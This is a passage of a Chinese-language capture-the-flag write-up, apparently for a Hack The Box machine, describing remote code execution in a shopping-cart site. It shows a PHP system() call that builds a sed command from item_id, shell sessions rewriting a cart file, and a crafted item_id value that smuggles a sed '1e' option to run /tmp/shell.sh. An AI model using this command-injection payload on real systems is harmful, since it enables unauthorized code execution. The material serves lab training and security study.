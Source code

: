   

## RCE

审计，其中在删除购物车信息的时候，会执行如下代码

  

  *   *   *   * 

    
    
    system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");注：'/item_id={$item_id}/d'                #删除item_id={$item_id}的行-i {$STORE_HOME}cart/{$user_id}        #表示要操作的目标文件

  

我们可以添加一个商品到购物车，分析一下过程。如下图点击`ADD TO CART`

![](https://gitee.com/fuli009/images/raw/master/public/20230307193113.png)

然后到bean用户的ssh窗口查看`/var/www/store/cart`（由上面的`README.md`文件或者`cart_actions.php`可以分析出这个路径），可以看到文件名为`959e-8a52-2e0-fc52`，也就是`$user_id`的值，文件内容里`item_id=1`

  

  *   *   *   *   * 

    
    
    bean@awkward:/var/www/store/cart$ ls959e-8a52-2e0-fc52bean@awkward:/var/www/store/cart$ cat 959e-8a52-2e0-fc52 ***Hat Valley Cart***item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90

  

代码中`item_id=1`会被代入sed命令执行，虽然有过滤，但是可以闭合绕过，这里就是可操作的地方。经过测试，对于同一个用户`$user_id`的值不会变，而且bean没有修改购物车文件的权限，但是可以先删除，然后重新写一个相同文件名的文件，如下

  

  *   *   *   *   * 

    
    
    bean@awkward:/var/www/store$ rm -rf cart/959e-8a52-2e0-fc52bean@awkward:/var/www/store$ nano cart/959e-8a52-2e0-fc52bean@awkward:/var/www/store$ cat cart/959e-8a52-2e0-fc52***Hat Valley Cart***item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90

  

构造payload可参考：https://gtfobins.github.io/gtfobins/sed/

我们构造的payload及最终代入sed命令的效果如下

  

  *   *   *   *   * 

    
    
    item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh 'sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}sed -i '1' -e "1e /tmp/shell.sh" /tmp/shell.sh '' /var/www/store/cart/959e-8a52-2e0-fc52注：-e<script>或--expression=<script>表示以选项中指定的script来处理输入的文本文件

  
